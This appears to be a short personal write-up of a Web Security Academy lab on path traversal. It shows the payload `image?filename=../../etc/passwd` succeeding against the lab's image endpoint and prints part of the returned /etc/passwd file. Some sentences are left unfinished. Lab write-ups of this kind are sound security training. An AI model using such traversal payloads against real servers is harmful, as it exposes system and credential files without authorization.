

# Path Control
Websites can expose path traversal in their images i.e.,

``

or in the URL. If there is no protection against path

We are given this [website](https://0a1c000304427b3280949585000e00ac.web-security-academy.net/)

- There is a prompt that the `image?filename=/x/y/z` may be vulnerable

- We try and change the URL to something that does  path traversal
- Brute forcing ../etc/passwd. ../etc/passwd /etc/passwd we get this prompt "No file found" but after some more tries AHA! https://0a5f003e044bf29d80a962ec0000008f.web-security-academy.net/image?filename=../../etc/passwd
works!

- Saving this file and changing it to an .txt we can clearly see its the passwd file
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
...
```

